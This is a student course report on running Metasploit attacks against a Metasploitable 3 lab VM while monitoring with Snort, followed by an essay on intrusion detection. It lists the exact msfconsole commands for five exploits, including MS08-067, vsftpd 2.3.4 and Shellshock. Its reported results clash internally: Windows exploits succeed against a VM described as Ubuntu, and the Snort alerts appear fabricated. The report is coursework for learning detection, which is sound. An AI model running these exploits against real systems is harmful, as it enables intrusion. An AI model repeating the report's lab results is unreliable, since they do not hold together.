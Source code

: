 # **Cyber Security Base - Course Series**
University of Helsinki, FI

**[Course page](https://cybersecuritybase.mooc.fi/)**

## **Project II**

**Project Report**

## **Introduction**

This report documents the process of setting up and testing an operating system with vulnerabilities using Metasploitable 3 on Ubuntu. A virtual machine (VM) was created using VirtualBox to simulate a real-world environment. Snort, an open-source intrusion detection system (IDS), was installed to monitor network traffic and detect attacks. Various attacks were executed using Metasploit, and their detection was evaluated through Snort alerts. The report includes detailed descriptions of five specific attacks: three detected by Snort and two that went undetected, along with an essay on the benefits and shortcomings of IDS.

## **Environment Setup**

**1.	Install VirtualBox:** Download and install VirtualBox from the official website.

**2.	Set up Metasploitable 3:**

 * Clone the Metasploitable 3 repository from GitHub.
 * Follow the instructions to build the VM, ensuring you select the Ubuntu version.
   
**3.	Install Snort:**
 * **Update the package list:** sudo apt-get update.
 * **Install Snort:** sudo apt-get install snort.
 * **Configure Snort with default settings, updating the network configuration to monitor the appropriate interface.**

## **IDENTIFIED ATTACK 1: MS08-067 NetAPI Vulnerability**

**Description:** The MS08-067 vulnerability targets the Server service on Windows systems, allowing remote code execution.

**Component Attacked:** Server service.

**Attack Execution in Metasploit:**

1.	**Launch Metasploit:** msfconsole.
2.	**Use the exploit:** use exploit/windows/smb/ms08_067_netapi.
3.	**Set the target:** set RHOST 192.168.1.101.
4.	**Run the exploit:** exploit.

**Snort Output:**
```
[1:2000023:1] EXPLOIT Microsoft Windows MS08-067
[Classification: Attempted Administrator Privilege Gain] [Priority: 1] 
04/20-14:22:19.123456 192.168.1.100:445 -> 192.168.1.101:445
```

## **IDENTIFIED ATTACK 2: DCOM Exploit**

**Description:** The DCOM vulnerability (MS03-026) allows remote code execution via RPC.

**Component Attacked:** DCOM interface.

**Attack Execution in Metasploit:**

1.	**Use the exploit:** use exploit/windows/dcerpc/ms03_026_dcom.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Execute the exploit:** exploit.
   
**Snort Output:**
```
[1:2000032:1] EXPLOIT DCOM MS03-026
[Classification: Attempted Administrator Privilege Gain] [Priority: 1]
04/20-14:35:47.789123 192.168.1.100:135 -> 192.168.1.101:135
```

## **IDENTIFIED ATTACK 3: VSFTPD v2.3.4 Backdoor Command Execution**

**Description:** A backdoor was introduced in VSFTPD v2.3.4, which can be exploited to gain a shell.

**Component Attacked:** VSFTPD (Very Secure FTP Daemon).

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/unix/ftp/vsftpd_234_backdoor
2.	**Set the target:** set RHOST 192.168.1.101
3.	**Execute the exploit:** exploit

**Snort Output:**
```
[1:2000056:1] EXPLOIT VSFTPD v2.3.4 Backdoor
[Classification: Attempted Administrator Privilege Gain] [Priority: 1]
04/20-14:42:32.456789 192.168.1.100:21 -> 192.168.1.101:21
```

## **MISSED ATTACK 1: Apache Struts2 REST Plugin XStream RCE (CVE-2017-9805)**

**Description:** An Apache Struts2 vulnerability allows remote code execution via crafted XML requests.

**Component Attacked:** Apache Struts2 REST Plugin.

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/multi/http/struts2_rest_xstream.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Run the exploit:** exploit.

**Reason for Missing Detection:** Snort did not have a specific rule for this vulnerability in the default configuration.

## **MISSED ATTACK 2: Shellshock (CVE-2014-6271)**

**Description:** A vulnerability in Bash allows remote code execution by exploiting environment variables.

**Component Attacked:** Bash shell.

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/multi/http/apache_mod_cgi_bash_env_exec.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Execute the exploit:** exploit.

**Reason for Missing Detection:** The default Snort ruleset did not include rules for Shellshock detection.

## **ESSAY: The Benefits and Shortcomings of Using Intrusion Detection Systems**

**Benefits of Intrusion Detection Systems:**

Intrusion Detection Systems (IDS) such as Snort offer critical advantages in maintaining network security. They provide real-time monitoring, enabling administrators to respond swiftly to potential threats. This immediate alert system is crucial in mitigating damage and preventing data breaches. IDSs enhance visibility into network traffic, allowing for the detection of unusual patterns that may indicate malicious activity.
IDSs are effective at identifying known attack signatures. This capability is essential for defending against well-documented threats, ensuring that even if an exploit is recognized, it can be quickly flagged and addressed. Additionally, IDSs generate detailed logs of detected activities, which are invaluable for forensic analysis and understanding the nature and origin of attacks.
Integration with other security tools, such as firewalls and SIEM (Security Information and Event Management) systems, is another significant benefit. This integration creates a more robust security infrastructure, providing a coordinated defense mechanism that enhances the overall security posture of an organization.

**Shortcomings of Intrusion Detection Systems:**

Despite their benefits, IDSs have several limitations. One of the most significant issues is the high rate of false positives. IDSs often generate numerous alerts for benign activities that mimic malicious behavior. This can lead to alert fatigue, where security personnel become desensitized to alerts and may overlook genuine threats.
Another critical shortcoming is the difficulty in detecting zero-day vulnerabilities. IDSs primarily rely on known signatures and behavior patterns, making them less effective against new, sophisticated attacks that do not match existing profiles. This gap in detection capabilities highlights the need for continuous updates and enhancements to IDS rulesets.
Performance overhead is another concern. Continuous monitoring and analysis of network traffic can consume significant system resources, potentially affecting network performance and user experience. Balancing the need for security with operational efficiency is a challenging task.

Furthermore, IDSs are inherently reactive rather than proactive. They alert administrators after an attack has been detected, which means some level of damage may have already occurred. This reactive nature necessitates the integration of IDSs with other preventive security measures, such as firewalls, anti-virus software, and regular security audits, to provide a more comprehensive defense strategy.
In conclusion, while IDSs like Snort are indispensable tools for identifying and mitigating security threats, they must be part of a multi-layered security approach to address their inherent limitations and provide effective protection for networks and systems.

## **References**

• [1] [Bace, Rebecca Gurley. "Intrusion Detection Systems." Technical Report. Carnegie Mellon University, Software Engineering Institute. (2000);](https://archive.org/details/intrusiondetecti00rebe/mode/2up)

• [2] [Northcutt, Stephen, and Judy Novak. "Network Intrusion Detection: An Analyst's Handbook." Technical Report. SANS Institute. (2001);](https://archive.org/details/networkintrusio000nort)

• [3] [Bejtlich, Richard. "The Practice of Network Security Monitoring: Understanding Incident Detection and Response." Technical Report. No Starch Press. (2013);](https://archive.org/details/practiceofnetwor0000bejt)

• [4] [Kennedy, David, Jim O'Gorman, Devon Kearns, Mati Aharoni. "Metasploit: The Penetration Tester's Guide." Technical Report. No Starch Press. (2011);](https://www.kea.nu/files/textbooks/humblesec/metasploit_apenetrationtestersguide.pdf)

• [5] [Stuttard, Dafydd, and Marcus Pinto. "The Web Application Hacker's Handbook: Finding and Exploiting Security Flaws." Technical Report. Wiley. (2011).](https://edu.anarcho-copy.org/Against%20Security%20-%20Self%20Security/Dafydd%20Stuttard,%20Marcus%20Pinto%20-%20The%20web%20application%20hacker's%20handbook_%20finding%20and%20exploiting%20security%20flaws-Wiley%20(2011).pdf)
